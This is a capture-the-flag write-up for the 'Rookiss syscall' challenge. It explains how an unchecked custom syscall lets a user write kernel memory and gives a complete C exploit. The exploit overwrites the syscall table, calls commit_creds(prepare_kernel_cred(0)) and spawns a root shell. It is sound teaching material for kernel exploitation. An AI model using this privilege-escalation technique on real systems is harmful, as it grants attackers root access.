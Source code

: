 # Rookiss syscall challenge writeup by agam ^_^

### In the given syscall.c code, we can see that they add a new syscall named sys_upper to the syscall_table. This syscall essentially converts any string of lowercase to uppercase.

```c
static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}
```
# INDEED? :D


### By inspecting the syscall code further, we can see that essentially, any user has read/write permissions in the kernel, indicated by a 0x20 offset ☠.
```c
asmlinkage long sys_upper(char *in, char* out) {
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i] >= 0x61 && in[i] <= 0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

## On the host, we can see that the kernel module has already been loaded.
```bash
$ lsmod
m 663 0 - Live 0x7f000000 (PO)

$ cat /proc/kallsyms | grep sys_upper
7f000000 t sys_upper    [m]
```

## To gain privileges, we need to change the process privileges and commit them. This can be achieved with this line of code:
```c
commit_creds(prepare_kernel_cred(0))
```

### Where "prepare_kernel_cred" is a func that creates a struct which represents the credentials of a process in the kernel. By passing 0 as an argument, you're essentially asking the kernel to prepare credentials for root. This function allocates and initializes a cred structure with elevated privileges.
```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

    ...

	old = get_task_cred(daemon);

	*new = *old;
	new->non_rcu = 0;
	atomic_long_set(&new->usage, 1);
	get_uid(new->user); 
	get_user_ns(new->user_ns);
	get_group_info(new->group_info);

    ...
}
``` 

 And **"commit_creds"** is a function that is used to replace the credentials of the current process with the credentials provided as an argument. It effectively changes the process's security context. By passing the result of prepare_kernel_cred(0) as an argument to commit_creds(), you're replacing the current process's credentials with those of the root privileges.

## since there isn't kalsr, Let's check the addresses of those functions inside of /proc/kallsyms:
```bash
$ cat /proc/kallsyms | grep sys_call_table
    >>> 8000e348 T sys_call_table <<<
```
```bash
$ cat /proc/kallsyms | grep prepare_kernel_cred
    >>> 8003f924 T prepare_kernel_cred <<<
    80447f34 r __ksymtab_prepare_kernel_cred
    8044ff8c r __kstrtab_prepare_kernel_cred
```
```bash
$ cat /proc/kallsyms | grep creds
    8003f3d8 T override_creds
    8003f44c T prepare_creds
    8003f51c T revert_creds
    >>> 8003f56c T commit_creds <<<
```

# Let's make the exploit poc!
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/syscall.h>

// 8000e348 T sys_call_table
#define SYS_CALL_TABLE       ((void**)0x8000e348) // 0x [80] [00] [e3] [48] -> 
#define COMMIT_CREDS         0x8003f56c // 0x [80] [03] [f5] [6c] -> "\x8c\xf5\x03\x80";
#define PERPARE_KERNEL_CREDS 0x8003f924 // 0x [80] [03] [f9] [24] -> "\x24\xf9\x03\x80";

#define SYS_UPPER            223


long get_root_privlleges_process(void* (*prepare)(void*), int (*commit)(void*) )
{
    return commit(prepare(NULL));
}

int main() 
{

    unsigned int** sct;
    sct = (unsigned int**)SYS_CALL_TABLE;
    printf("[+] get_root_privlleges_process func addr: %p\n", get_root_privlleges_process);

    // store pointer to get_root_privlleges_process
    uint8_t sys_root_ptr[sizeof(void*) + 1] = {0};
    *(void**)sys_root_ptr = (void*)get_root_privlleges_process;

    printf("[+] sys_root_ptr: %p\n", sys_root_ptr);
    printf("[+] sys_upper addr: %p\n", SYS_CALL_TABLE + SYS_UPPER); 

    // override SYS_UPPER syscall functionality to our get_root_privlleges_process func
    syscall(SYS_UPPER, sys_root_ptr, &sct[SYS_UPPER]);
    puts("changed sys_upper to sys_root_ptr :D");
    
    void *commit  = (void*)COMMIT_CREDS;
    void *prepare = (void*)PERPARE_KERNEL_CREDS;

    printf("[+] commit: %p\n[+] prepare: %p\n", commit, prepare);
    // call our new syscall with the memory address of commit and prepare
    syscall(SYS_UPPER, prepare, commit);

    //      goal
    // ----------------
    system("/bin/sh");

    return 0;
}
```
```bash
/tmp # cat /root/flag
Congratz!! addr_limit looks quite IMPORTANT now... huh?
```
